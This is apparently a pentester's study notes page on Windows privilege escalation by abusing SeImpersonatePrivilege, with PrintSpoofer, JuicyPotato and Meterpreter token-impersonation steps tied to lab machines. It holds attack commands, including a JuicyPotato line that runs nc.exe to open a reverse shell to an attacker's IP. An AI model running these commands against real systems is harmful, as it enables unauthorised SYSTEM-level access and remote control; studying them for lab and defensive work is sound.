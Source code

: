 # 🥔 SeImpersonatePrivilege

Impersonation attacks allow the attacker to impersonate Services that are running as different users and Impersonate them through the SeImpersonatePrivilege permission on Windows.&#x20;

Enumeration:

```
whoami /priv
```

![](<../../../../.gitbook/assets/image (65).png>)

If the SeImpersonatePrivilege is set to Enabled that is our queue to start doing some potato attacks. :D

{% embed url="https://c.tenor.com/G24ZSNHLmRUAAAAM/yahia-potato.gif" %}

We got different appreaches depending on the architechture of the machine we are on.

If the machine is x64, our best strategy is to try PrintSpoofer first since it easier and doesn't require extra steps. If PrintSpoofer doesn't work then we are going to try JuicyPotato. If the architechture is x86 we are going to just try JuicyPotato. If we have a meterpreter session we will first run the command getsystem, if that fails then we will try to use the RottenPotato technique to be able to use the incognito module with more options of impersonation.

Print Spoofer&#x20;

{% embed url="https://github.com/dievus/printspoofer" %}

I am not entirely sure whether this is the binary I use but I am sure it will work either way.&#x20;

* [ ] Generate payload using msfvenom
* [ ] Transfer payload and PrintSpoofer to the machine.&#x20;
* [ ] Start Listener&#x20;
* [ ] Execute command below:

```
PrintSpoofer.exe -c /path/to/payload.ex

or 

PrintSpoofer.exe -i -c cmd.exe 
```

<details>

<summary>Example of PrintSpoofer</summary>

[https://app.gitbook.com/s/IXE4S9y1bygoobC2q1Bz/priv-escalation](https://app.gitbook.com/s/IXE4S9y1bygoobC2q1Bz/priv-escalation) (MeatHead PG)

[https://app.gitbook.com/s/jVmUn0w3TYqT1Knlw8lm/privilege-escalation](https://app.gitbook.com/s/jVmUn0w3TYqT1Knlw8lm/privilege-escalation) (Jacko)

</details>

JuicyPotato&#x20;

This will work for either archs but just keep in mind that depending on which arch the machine is you have to use the respective version of JuicyPotato.&#x20;

{% embed url="https://github.com/ohpe/juicy-potato/tree/master/CLSID" %}

* [ ] Take Note of WIndows Version
* [ ] Take Note of CLSID&#x20;
* [ ] Transfer NC.EXE
* [ ] Transfer JuicyPotato.exe
* [ ] Start Listener
* [ ] Execute command below:

```
Juicy.Potato.x86.exe -t * -l 1337 -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}" -p C:\Windows\System32\cmd.exe -a "/c C:\path\to\nc.exe -e cmd.exe <ip> <port>"
```

<details>

<summary>Examples of Juicy Potato</summary>

[https://app.gitbook.com/s/ZQl9kALjcfNuYSSZ9equ/privilege-escalation](https://app.gitbook.com/s/ZQl9kALjcfNuYSSZ9equ/privilege-escalation) (AuthBy)

</details>

Change the CLSID to the one you want to impersonate, if that one doesnt work try the next one, this is a guaranteed Administrator.

RottenPotato

Meterpreter Session required.

Steps:

```
execute -cH -f rottenpotato.ex
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"

```
